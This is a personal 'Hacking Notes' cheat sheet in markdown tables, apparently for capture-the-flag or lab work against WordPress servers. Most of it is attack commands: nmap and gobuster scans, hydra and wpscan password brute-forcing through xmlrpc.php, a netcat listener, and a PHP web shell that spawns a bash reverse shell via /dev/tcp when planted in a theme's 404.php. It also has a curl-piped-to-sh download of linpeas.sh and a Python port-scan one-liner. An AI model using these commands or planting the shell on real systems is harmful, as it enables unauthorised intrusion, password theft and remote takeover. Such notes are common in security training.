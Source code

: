 # Hacking Notes  

## Configuration files: 
|Description                | Command                         |Syntax                 |
|----------------|-------------------------------|-----------------------------|
| Use of VPN | openvpn           |openvpn [FILE]            |
| Use of nmap | nmap           | nmap [IP]/[RANGE] [OPTIONS]            |
| UDP nmap scan | nmap           | nmap [IP]/[RANGE] -sU             |
| TCP nmap scan (no ping) | nmap           | nmap [IP]/[RANGE] -Pn             |
| Directory discovery | gobuster           | gobuster dir -u [URL] -w [WORDLIST e.g. /usr/share/wordlists/dirb/common.txt


## Web files: 
|Description                | Command                         |Syntax                 |
|----------------|-------------------------------|-----------------------------|
| Robots File | robots.txt           | [IP]/robots.txt        |

## Data format: 
|Description                | Command                         |Syntax                 |
|----------------|-------------------------------|-----------------------------|
| Get only strings | strings           | strings [FILE]        |

## Wordpress files
|Description                | Syntax Path|                     
|----------------|-------------------------------|
| Conf backupfile | [file].swp        |

## Access
|Description                | Syntax Path|                     
|----------------|-------------------------------|
|ftp | ftp [IP]       |
|ssh | ssh [IP]       |

## Dictionaries
|Description                | Syntax Path|                     
|----------------|-------------------------------|
| cewl (Custom Word List generator) | cewl [URL] > [PWDFILE]       |


## Bruteforce

|Description                | Syntax Path|                     
|----------------|-------------------------------|
| hydra | hydra -L [USRFILE] -P [PWDFILE] [IP] -s [PORT] http-post-form "[url]:method=wp.getUsersBlogs&user=^USER^&password=^PASS^:Invalid" -V       |
| wordpress wpscan (using xmlrpc.php) | wpscan --url [URL] -U [USER] -P [PWDFILE]       |


## Privilege Escalation
Listen: nc -lvnp [PORT]

PHP Shell (Trigger)

```
<?php

if (isset($_GET['trigger'])) {
    exec("/bin/bash -c 'bash -i >& /dev/tcp/[IP]/[PORT] 0>&1'");
}
Example: http://[IP]/wordpress/wp-content/themes/[THEME]/404.php?trigger=1)
```

LinPEAS
```
curl -L https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh | sh
```

## Port Scanning

One-liner
```
python3 -c 'import socket,ipaddress;[print(f"{ip} Port {p} OPEN") for ip in list(ipaddress.IPv4Network("[RANGE]").hosts())[100:200] for p in range(1,65535) if not socket.socket().connect_ex((str(ip),p))]' 
```
